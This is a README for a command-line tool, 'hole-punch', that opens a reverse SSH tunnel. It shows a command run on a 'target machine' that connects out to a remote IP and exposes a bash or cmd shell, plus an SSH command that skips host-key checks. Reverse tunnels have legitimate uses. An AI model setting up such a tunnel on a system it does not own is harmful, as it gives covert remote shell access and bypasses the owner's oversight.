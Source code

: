 # hole-punch

Quickly launch a reverse SSH connection.

```
# on the target machine
hp --key id_rsa --remote user@172.217.164.78:2455

# on the remote
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa -p 3333 127.0.0.1
```

## Options

When defining the remote endpoint, endpoints look like: `user@host:port`

| Flag             | Environment Variable | Default                             | Description                         |
| :--------------- | -------------------- | ----------------------------------- | ----------------------------------- |
| `-k`, `--key`    | `HP_KEY`             |                                     | path to SSH private key             |
| `-r`, `--remote` | `HP_REMOTE`          |                                     | remote SSH endpoint to connect to   |
| `-l`, `--local`  | `HP_LOCAL`           | `127.0.0.1:2222`                    | local SSH endpoint to create        |
| `-s`, `--shell`  | `HP_SHELL`           | `bash` for linux/osx, `cmd` for Win | shell to invoke                     |
| `-t`, `--tunnel` | `HP_TUNNEL`          | `127.0.0.1:3333`                    | tunnel to create on remote endpoint |
